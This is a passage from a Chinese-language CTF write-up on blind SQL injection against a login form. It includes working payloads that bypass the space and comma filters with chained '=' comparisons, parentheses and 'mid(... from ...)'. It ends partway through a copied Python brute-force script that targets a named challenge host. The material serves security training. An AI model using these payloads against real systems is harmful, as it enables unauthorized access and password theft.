    ```mysql
   select pass from admin where user='-1'='1'='0';
   where子句是一个真逻辑。（sql的=是左结合的，所以原式等价于(((user='-1')='1')='0')
   user='1'=》假
   假='1'=》假
   假='0'=》真
   ```

   所以，我们拼接：

   ```mysql
   select pass from admin where user='test'='1'='0';(where子句为真)
   select pass from admin where user='test'='0'='0';（where子句为假）
   因此，我们有：
   select pass from admin where user='test'='(select 1 from admin where '1'='1')'='';
   这样，只要select 1 from admin where '1'='1'为真的时候，where子句就会为真
   而，我们在fuzz的时候可以发现，空格也被过滤了，因此这里我们使用（）来替代空格
   最后的payload
   select pass from admin where user='test'='(select(1)from(admin)where('1')=('1'))'=''
   ```

   提交一个这样的包：

   ```mysql
   uname=user'=('1')='0&passwd=admin
   可以看到，返回alert('password error!!@_@');parent.location.href='index.php';（user用户实际不存在） 说明sql正确执行了
   再提交
   uname=user'=(select(1)from(admin)where('1')=('1'))='0&passwd=admin
   返回：alert('password error!!@_@');parent.location.href='index.php';
   这样，我们就可以开始盲注了
   uname=user'=(select(1)from(admin)where(length(passwd))<50)='0&passwd=admin
   uname=user'=(select(1)from(admin)where(length(passwd))=32)='0&passwd=admin
   接下来，使用mid或者substr函数的时候，发现，被过滤。
   这里可以使用另外一个姿势来绕过（逗号绕过，在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决。）
   select substr(database() from 1);
   select mid(database() from 1);
   这里的1代表返回第一位及其以后的字符串
   所以，最后构造的payload
   uname=user'=(select(1)from(admin)where(mid((passwd)from(32))>='0'))='&passwd=1
   然后，构造一个脚本注入即可。
   ```

   ```Python
   #拷贝自http://blog.l1n3.net/writeup/swpu_ctf_2016_writeup/ 
   import hackhttp
    
   hh = hackhttp.hackhttp()
   md5_str = '1234567890abcdef'
   flag = ""
   url = "http://web1.08067.me/login.php"
   for length in range(0,33):
       for i in md5_str:
           raw = '''POST /login.php HTTP/1.1
   Host: web1.08067.me
   Content-Length: 76
   Cache-Control: max-age=0
   Origin: http://web1.08067.me
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36
   Content-Type: application/x-www-form-urlencoded
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
   DNT: 1
   Referer: http://web1.08067.me/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
   ```